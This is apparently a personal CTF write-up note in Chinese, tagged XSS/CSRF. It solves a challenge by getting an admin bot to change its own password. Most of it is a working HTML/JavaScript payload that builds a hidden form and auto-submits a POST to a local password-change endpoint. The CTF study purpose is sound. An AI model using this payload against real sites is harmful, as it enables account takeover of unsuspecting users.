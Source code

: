 tags:: [[CTFWEB/XSS]], [[CTFWEB/CSRF]]

- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- 本次使用的是POST，需要新建一个虚拟表单
- 用这个：
	- {{embed ((63021a8b-2051-47f1-8372-f413519cd49b))}}
-
- # Payload
- ```html
  <script>
  function httpPost(URL, PARAMS) {
    var temp = document.createElement("form");
    temp.action = URL;
    temp.method = "post";
    temp.style.display = "none";
  
    for (var x in PARAMS) {
      var opt = document.createElement("textarea");
      opt.name = x;
      opt.value = PARAMS[x];
      temp.appendChild(opt);
    }
    document.body.appendChild(temp);
    temp.submit();
  
    return temp;
  }
  httpPost("http://127.0.0.1/api/change.php", {
    "p": "123123"
  });
  </script>
  ```
-